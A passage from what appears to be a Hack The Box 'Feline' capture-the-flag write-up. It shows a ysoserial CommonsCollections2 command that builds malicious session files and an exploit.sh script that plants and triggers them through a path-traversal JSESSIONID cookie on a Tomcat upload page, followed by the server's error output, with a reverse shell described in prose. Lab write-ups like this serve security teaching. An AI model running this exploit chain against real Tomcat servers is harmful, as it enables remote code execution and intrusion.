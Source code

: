 The next malicious session file was used to give execute permissions to the first payload

```text
┌──(zweilos㉿kali)-[~/htb/feline]
└─$ java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 'bash /dev/shm/payload.sh' > executePayload.session
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```

The final malicious session file was used to execute my payload.sh reverse shell

```bash
#!/bin/bash
# exploit.sh
curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JSESSIONID=../../../opt/samples/uploads/downloadPayload' -F 'image=@downloadPayload.session'
curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JSESSIONID=../../../opt/samples/uploads/downloadPayload'
sleep 1
curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JSESSIONID=../../../opt/samples/uploads/chmodPayload' -F 'image=@chmodPayload.session'
curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JSESSIONID=../../../opt/samples/uploads/chmodPayload'
sleep 1
curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JSESSIONID=../../../opt/samples/uploads/executePayload' -F 'image=@executePayload.session'
curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JSESSIONID=../../../opt/samples/uploads/executePayload'
```

Finally I wrote a script to automate uploading all of these files to the server. Next I ran `python3 -m http.server` so that the final payload could be downloaded, started a netcat listener, and then I ran the script and hoped that everything would work!

```text
┌──(zweilos㉿kali)-[~/htb/feline]
└─$ ./exploit.sh 

File uploaded successfully!


<!doctype html><html lang="en"><head><title>HTTP Status 500 – Internal Server Error</title><style type="text/css">h1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} h2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} h3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} body {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} b {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} p {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;} a {color:black;} a.name {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 500 – Internal Server Error</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> InvokerTransformer: The method &#39;newTransformer&#39; on &#39;class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl&#39; threw an exception</p><p><b>Description</b> The server encountered an unexpected condition that prevented it from fulfilling the request.</p><p><b>Exception</b></p><pre>org.apache.commons.collections4.FunctorException: InvokerTransformer: The method &#39;newTransformer&#39; on &#39;class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl&#39; threw an exception
       ...snipped verbose error messages...
</pre><p><b>Note</b> The full stack trace of the root cause is available in the server logs.</p><hr class="line" /><h3>Apache Tomcat/9.0.27</h3></body></html>

File uploaded successfully!


```